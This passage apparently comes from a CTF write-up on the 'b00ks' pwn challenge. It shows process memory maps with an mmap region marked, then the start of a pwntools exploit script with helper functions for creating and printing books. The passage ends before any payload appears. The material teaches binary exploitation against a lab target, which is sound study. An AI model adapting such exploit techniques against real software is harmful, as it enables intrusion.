 ```
0x00007f8d63e94000 0x00007f8d63e95000 0x0000000000000000 rw- 
0x00007ffdc4f12000 0x00007ffdc4f33000 0x0000000000000000 rw- [stack]
0x00007ffdc4f7a000 0x00007ffdc4f7d000 0x0000000000000000 r-- [vvar]
0x00007ffdc4f7d000 0x00007ffdc4f7f000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/123/123
0x00007f6572703000 0x00007f65728c3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f65728c3000 0x00007f6572ac3000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac3000 0x00007f6572ac7000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac7000 0x00007f6572ac9000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac9000 0x00007f6572acd000 0x0000000000000000 rw- 
0x00007f6572acd000 0x00007f6572af3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cb4000 0x00007f6572cd9000 0x0000000000000000 rw- <=== mmap
0x00007f6572cf2000 0x00007f6572cf3000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf3000 0x00007f6572cf4000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf4000 0x00007f6572cf5000 0x0000000000000000 rw- 
0x00007fffec566000 0x00007fffec587000 0x0000000000000000 rw- [stack]
0x00007fffec59c000 0x00007fffec59f000 0x0000000000000000 r-- [vvar]
0x00007fffec59f000 0x00007fffec5a1000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

### 4.EXP
```python
from pwn import *
context.log_level="info"

binary=ELF("b00ks")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
io=process("./b00ks")


def createbook(name_size,name,des_size,des):
	io.readuntil("> ")
	io.sendline("1")
	io.readuntil(": ")
	io.sendline(str(name_size))
	io.readuntil(": ")
	io.sendline(name)
	io.readuntil(": ")
	io.sendline(str(des_size))
	io.readuntil(": ")
	io.sendline(des)

def printbook(id):
	io.readuntil("> ")
	io.sendline("4")
	io.readuntil(": ")
	for i in range(id):
		book_id=int(io.readline()[:-1])
		io.readuntil(": ")
		book_name=io.readline()[:-1]
		io.readuntil(": ")
		book_des=io.readline()[:-1]
		io.readuntil(": ")
		book_author=io.readline()[:-1]
	return book_id,book_name,book_des,book_author

```